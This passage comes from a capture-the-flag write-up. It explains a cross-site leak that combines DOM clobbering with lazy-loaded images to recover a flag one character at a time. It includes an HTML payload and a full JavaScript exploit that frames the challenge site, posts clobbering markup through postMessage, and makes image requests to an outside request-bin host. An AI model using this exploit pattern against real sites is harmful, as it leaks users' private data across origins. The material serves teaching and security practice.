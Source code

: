 We can make use of [image lazy loading](https://web.dev/browser-level-image-lazy-loading/) to only load an image if it is within the browser viewport. This way, we are able to tell if the results section was rendered.

```markup
<a href="asdf" id="enable_experimental_features">CLOBBERED</a>
<img src="https://EXFIL.x.pipedream.net?nope=${CURR_FLAG + char}" loading="lazy">
```

If we do _not_ receive a request for a particular character, that means that the results section was rendered, and therefore the search was a correct guess.

The following script implements this exploit.

```javascript
const sleep = (milliseconds) => {
    return new Promise(resolve => setTimeout(resolve, milliseconds))
}

(async () => {
    const CURR_FLAG = "nite{hello_longtasktimingapi_3a2c53"
    const CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789_}"

    for (let char of CHARSET) {
        const frame = document.createElement("iframe")
        frame.width = "100%"
        frame.height = "100%"
        frame.src = "https://challenge.jsapi.tech"
        document.body.appendChild(frame)
        
        await sleep(500);

        frame.contentWindow.postMessage(
            {
                op: "preview",
                payload: `<a href="asdf" id="enable_experimental_features">CLOBBERED</a><img src="https://enrueq28ozwok.x.pipedream.net?nope=${CURR_FLAG + char}" loading="lazy">`
            },
            "*"
        )
        frame.contentWindow.postMessage(
            {
                op: "search",
                payload: CURR_FLAG + char
            },
            "*"
        )
        
        await sleep(500);

        frame.remove()
    }
})()
```
